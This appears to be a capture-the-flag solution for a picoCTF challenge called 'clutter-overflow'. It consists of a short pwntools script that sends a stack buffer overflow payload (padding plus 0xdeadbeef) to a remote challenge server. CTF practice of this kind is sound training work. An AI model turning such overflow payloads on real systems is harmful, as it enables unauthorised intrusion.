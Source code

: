 # clutter-overflow

```python
from pwn import *

r = process("./chall")
r = remote("mars.picoctf.net", 31890)
r.recvuntil(b"What do you see?")
r.sendline(b"A"*(0x110 - 0x8) + p64(0xdeadbeef))
r.recvall()
```
